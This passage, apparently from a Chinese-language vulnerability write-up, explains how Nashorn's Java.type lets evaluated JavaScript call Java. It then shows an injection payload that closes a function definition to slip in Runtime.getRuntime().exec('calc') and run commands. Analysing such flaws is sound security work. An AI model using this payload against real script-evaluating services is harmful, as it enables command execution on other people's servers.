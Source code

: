 > 在 Nashorn JavaScript 引擎中，可以使用 `Java` 全局对象来执行 Java 命令。`Java` 对象提供了与 Java 交互的功能，包括执行 Java 方法、创建 Java 对象等操作。
> 
> 要执行 Java 命令，请按照以下步骤进行操作：
> 
> 1.  获取 Nashorn 的 JavaScript 引擎实例：
>     
>     ```bash
>     ScriptEngine engine = new ScriptEngineManager().getEngineByName("nashorn");
>     ```
>     
> 2.  使用 `eval()` 方法执行 JavaScript 代码，其中包含 Java 命令：
>     
>     ```bash
>     engine.eval("Java.type('ClassName').staticMethodName(arguments)");
>     ```
>     
>     在上面的代码中，`ClassName` 是要执行的 Java 类的完全限定名，`staticMethodName` 是该类中的静态方法名。可以根据需要将参数传递给该方法。
>     
>     例如，如果要执行 `java.lang.System.out.println("Hello, Nashorn!")` 命令，可以使用以下代码：
>     
>     ```bash
>     engine.eval("Java.type('java.lang.System').out.println('Hello, Nashorn!')");
>     ```
>     
>     注意，在执行 Java 命令之前，需要确保所需的 Java 类和方法可在 Nashorn 运行时的类路径中找到。
>     

因此，输入恶意的 payload，通过拼接构造可以得到

```bash
function aaa(bbb){}Java.type('java.lang.Runtime').getRuntime().exec('calc');{}
```

这样能够成功命令执行

**调试**

[![](assets/1706959434-2418d4806b806cba63ce1a8a91385ff4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125205238-9eb70c76-bb80-1.png)

